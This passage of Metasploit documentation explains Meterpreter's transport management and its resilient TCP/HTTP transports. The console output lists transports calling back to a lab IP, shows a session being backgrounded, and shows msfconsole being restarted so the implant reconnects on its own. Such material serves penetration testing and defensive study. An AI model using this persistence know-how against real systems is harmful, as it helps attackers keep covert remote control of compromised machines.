 ```bash
[*] Removing transport ...
[+] Successfully removed reverse_http transport.
meterpreter > transport list
Session Expiry  : @ 2015-07-10 07:39:08

    Curr  URL                    Comms T/O  Retry Total  Retry Wait
    ----  ---                    ---------  -----------  ----------
    *     tcp://10.1.10.40:5000  300        3600         10

meterpreter >
```

### Resilient transports

Previously, Meterpreter only had built-in resiliency in the `HTTP/S` payloads and this was due to the nature of `HTTP/S` as a stateless protocol. Meterpreter now has resiliency features baked into `TCP` transports as well, both `reverse` and `bind`. If communication fails on a given transport, Meterpreter will roll over to the next one automatically.

The following shows Metasploit being closed and leaving the existing `TCP` session running behind the scenes:

```bash
meterpreter > transport list
Session Expiry  : @ 2015-06-09 19:56:05

    Curr  URL                                                                                                    Comms T/O  Retry Total  Retry Wait
    ----  ---                                                                                                    ---------  -----------  ----------
    *     tcp://10.1.10.40:6000                                                                                  300        3600         10
          http://10.1.10.40:5105/jpdUntK69qiVKZQrwETonAkuobdXaVJovSXlqkvd7s5WB58Xbc3fNoZ5Cld4kAfVJgbVFsgvSpH_N/  100000     50000        2500
          tcp://10.1.10.40:5005                                                                                  300        3600         10

meterpreter > background
[*] Backgrounding session 5...
msf exploit(handler) > exit -y
```

With Metasploit closed, the Meterpreter session has detected that the transport is no longer functioning. Behind the scenes, Meterpreter has shut down this `TCP` transport, and has automatically moved over to the `HTTP` transport as this was the next transport in the list. From here, Meterpreter continues to try to re-establish connectivity with Metasploit on this transport a per the transport timeout settings.

The following output shows Metasploit being re-launched with the appropriate listeners, and the existing Meterpreter instance establishing a session automatically:

```bash
./msfconsole -r ~/msf.rc
[*] Starting the Metasploit Framework console...|
IIIIII    dTb.dTb        _.---._
  II     4'  v  'B   .'"".'/|\`.""'.
  II     6.     .P  :  .' / | \ `.  :
  II     'T;. .;P'  '.'  /  |  \  `.'
  II      'T; ;P'    `. /   |   \ .'
IIIIII     'YvP'       `-.__|__.-'

I love shells --egypt


       =[ metasploit v4.11.0-dev [core:4.11.0.pre.dev api:1.0.0]]
+ -- --=[ 1460 exploits - 835 auxiliary - 229 post        ]
```